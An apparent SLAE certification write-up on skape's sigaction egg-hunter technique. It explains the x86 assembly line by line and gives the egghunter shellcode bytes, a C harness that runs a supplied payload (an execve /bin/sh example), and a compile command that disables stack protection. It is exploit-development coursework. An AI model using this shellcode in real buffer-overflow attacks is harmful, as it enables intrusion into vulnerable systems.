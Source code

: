 # Assignment 3

## What to do
- Study the Egg Hunter shellcode
- Create a working demo of egghunter
- Should configurable for different payloads

###### This study is based on skape's paper _Safely Searching Process Virtual Address Space_ published back in 2004.

The concept of the egg-hunting technique is to search a process' _Virtual Address Space_ for a specific occurrence of the provided egg.

As skape describes, think about searching for a needle in a haystack. In this case, process _Virtual Address Space_ is the haystack and egg is the needle.

This exploitation technique is useful when a very small amount of data to use is available during exploiting a buffer overflow vulnerability.

The actual egg-hunting shellcode is placed in the small available memory location. The attacker then can place a larger payload somewhere else in the process' address space and the actual egg-hunting shellcode will look in the memory for this larger payload.

The mechanism that the studied method uses, involves abusing the system call interface provided by the operating system in order to validate process _Virtual Memory Areas_ in kernel mode.

The implementation being studied here considers *sigaction* sys call. Its real purpose is to allow for defining custom actions to be taken on the receipt of a given signal. In this case, however, it will validate user-mode addresses.

The sigaction function is prototyped as follows:

```c
int sigaction(int signum, const struct sigaction *act,
                     struct sigaction *oldact);
```

At this point, let's have a closer look at the registers during egghunter's execution:

- EAX will hold the sigaction sys call number, `0x43` and later will hold the egg

- EBX will hold signum, there is no need to initialize this register

- ECX will hold act structure, the memory address we want to validate. At first, access to a memory page is validated. If the page is in the process' virtual address space ECX iterates inside this page and checks the existence of the egg. Otherwise, ECX moves to the next memory page.

The page's size can me easily identified:

```zsh
$ getconf PAGE_SIZE
4096
```

- EDX will hold oldact structure and does not have to be initialized to a valid pointer because act structure is checked to see if it is valid before the oldcat structure is.

- EDI will hold the memory address that ECX points to

- ESI there is no need to use this register

The actual egg-hunter Assembly code follows:

```assembly
;
; sigaction egghunter
;

global _start

section .text
_start:

        or cx, 0xfff            ; page allignment
        inc ecx                 ; first address in the memory page
        push byte +0x43         ; sigtran sys call number
        pop eax                 ; sys call number into eax
        int 0x80                ; make sys call
        cmp al, 0xf2            ; check if memory is accessible -EFAULT
        jz $-0xd                ; if memory is not accessible look into another page
        mov eax,0x50905090      ; egg CHANGE ME
        mov edi, ecx            ; load edi with the address that ecx point to
        scasd                   ; compare eax to edi
        jnz $-0x12              ; if not equal inc ecx
        scasd                   ; string compare
        jnz $-0x15              ; if not equal inc ecx
        jmp edi                 ; jmp to shellcode

```

Further notes on the egghunter code

As soon as sigaction sys call is being executed a value is returned in EAX. If the process has access to the specified memory zero is returned.

Otherwise, the error code EFAULT is returned. Since it is an error code returned by a system call, the actual value is negative.

The EFAULT's value is stored in a header file and can be retrieved using the following command:

```zsh
$ cat /usr/include/asm-generic/errno-base.h | grep -w 'EFAULT'
#define	EFAULT		14	/* Bad address */
```

The value (-14) converted to 2's complement binary is 1111 0010 and is stored in EAX. The lower byte stored in EAX will therefore be `0xf2`.

A really efficient method is used to compare the bytes located in memory address pointed by ECX.

The address stored in ECX is moved to EAX. After this move, SCASD instruction follows. This instruction makes a string compare between EAX and EDI.

On a match - memory address pointed by EDI has the first occurrence of the egg - EDI will be increased by one, pointing to the next address that needs to be compared with EAX.

On a second match - EDI has the second occurrence of the egg - the execution continues to the actual shellcode (execve /bin/sh).

The Assembly code can be found in _Assignment #3_ repo named as _egghunter.asm_

The following demo code is the proof of concept:

```c
#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>
#include<string.h>

int main(int argc, char **argv)
{
	uint8_t egghunter[30] =
		"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd"	// skape's egg-hunting demo shellcode
		"\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50"	// \x90\x50\x90\x50 is the demo egg
		"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";	//

	uint32_t j=0, i=0, count =0, count2=0;
	uint8_t *shellcode;

	// usage
	if ( argc != 3 )
	{
		printf("shellcode.c <shellcode> <egg>\n");
		exit(0);
	}

	// calculate the length of the given shellcode
	while ( argv[1][i++] != '\0' )
		count++;

	count = count/3;	// # of bytes

	// given the shellcode, change each char from xXX to XX\0
	// e.g. \x55 will be 55\0
	// each pair must be null terminated for later use in strtol
	i=0;
	do
	{
		argv[1][i] = argv[1][i+1];
		argv[1][i+1] = argv[1][i+2];
		argv[1][i+2] = '\0';
		count2++;
		i=i+3;
	} while ( count-- != 1 );

	// allocate memory for the shellcode
	shellcode = (uint8_t *)malloc(sizeof(uint8_t)*count2+8);

	// place the egg into the shellcode
	for (i=0; i<4; i++)
	{
		shellcode[i] = argv[2][3-i];
		shellcode[i+4] = argv[2][3-i];
	}

	// transform each pair of characters into a number
	// e.g. \x55 will be saved as chars x 5 5
	// strtol will transform 5 5 into a number
	j=0;
	for (i=0; i<count2; i++)
	{
		shellcode[i+8] = (uint8_t) strtol(&argv[1][j], NULL, 16);
		j=j+3;
	}

	// place the new egg in the egghunter
	for (i=0; i<4; i++)
		egghunter[16+i] = argv[2][3-i];


	printf("Shellcode length: %d\n", strlen(egghunter));

	int (*ret)() = (int(*)())egghunter;

	ret();

	return 0;

}

```

The code above can be found in _Assignement #3_ repo and is named as _shellcode.c_

It can be compiled issuing the command `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`

The produced _elf_ will take two arguments: the shellcode to be executed (in this example execve /bin/sh) and the four-character egg (in this example is the word loot)

```c
$ ./shellcode \x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80 loot
```

The execution of the elf shellcode provided the two arguments, will spawn an sh shell.

/printscreen goes here.

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
